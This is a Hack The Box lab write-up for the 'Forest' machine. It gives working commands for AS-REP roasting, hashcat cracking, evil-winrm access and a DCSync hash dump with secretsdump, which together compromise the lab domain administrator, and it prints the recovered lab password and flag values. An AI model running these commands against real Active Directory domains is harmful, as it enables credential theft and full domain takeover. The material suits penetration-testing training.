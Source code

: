 # HTB: Forest

## Engagement Overview

**Target:** Forest  
**Box IP:** 10.10.10.161    
**Local IP:** 10.10.14.2    
**Date:** 2025-07-15

---

### Objectives

- Enumerate Active Directory/Exchange environment and identify weak Kerberos/LDAP configurations.  
- Obtain an AS-REP roastable TGT, crack offline to recover service account credentials.  
- Use service account to escalate (Exchange abuse → DCSync) and obtain Domain Administrator.  
- Capture `user.txt` and domain `root.txt`.

---

## Service Enumeration

```bash
nmap -p- -sC -sV -oA forest-scan 10.10.10.161
```

**Open ports (condensed):**
- 53/tcp (DNS), 88/tcp (Kerberos), 135/tcp (MS RPC), 139/tcp (NetBIOS), 389/tcp (LDAP), 445/tcp (SMB), 464/tcp (kpasswd), 593/tcp (RPC/HTTP), 636/tcp (LDAPS), 3268/tcp (GC LDAP), 3269/tcp (GC LDAPS)

**Domain info discovered:**
- Domain: `htb.local`
- Hostname/FQDN: `FOREST.htb.local`  
- OS: Windows Server 2016 Standard

Notes: anonymous LDAP binds allowed; message signing required on SMB; Kerberos pre-auth disabled for target service account (AS-REP roastable).

---

## Initial Access

### AS-REP Roasting (Kerberos pre-auth disabled)

```bash
impacket-GetNPUsers htb.local/svc-alfresco -dc-ip 10.10.10.161 -no-pass
# output: AS-REP roastable hash for svc-alfresco
```

### Crack hash offline

```bash
hashcat -m 18200 -a 0 hash.txt wordlist.txt
# recovered: svc-alfresco:s3rvice
```

### Authenticate & foothold

```bash
evil-winrm -i 10.10.10.161 -u svc-alfresco -p s3rvice
# authenticated as svc-alfresco
```

---

## Privilege Escalation

### Exchange/AD abuse → DCSync
- `svc-alfresco` is member of **Account Operators** and has permissions to modify Exchange groups (WriteDACL-like permissions discovered).  
- Abused Exchange permissions to add service account to privileged groups and escalate permissions.  
- Performed DCSync using `impacket-secretsdump` to extract NTLM hashes including Administrator.

```bash
secretsdump.py htb.local/svc-alfresco:s3rvice@10.10.10.161
# dumped hashes including Administrator NTLM
```

**Result:** Domain Administrator compromise achieved; domain credentials and hashes extracted.

---

## House Cleaning / Post-Exploitation

- No persistent backdoors created; tooling executed in-memory when possible.  
- Removed any temporary artifacts created during engagement.

**Flags captured:**  
- `user.txt`: `58fc66dc0f2af05eb1a1751186720d85`  
- `root.txt` (domain/root): `c0a4c2b3bd3faf59b20d049d108d7613`

---

## Tools Utilized
- nmap, ldapsearch  
- impacket (GetNPUsers, secretsdump)  
- hashcat  
- evil-winrm  
- ropnop/windapsearch (auxiliary AD tooling)  

---

## Key Takeaways
- Check for Kerberos pre-auth disabled accounts early (AS-REP roasting).  
- Exchange permissions are powerful: misconfigured Exchange delegation can lead to DCSync and full domain compromise.  
- AD enumeration (LDAP/GC) and group mapping are essential on Windows domain boxes.  
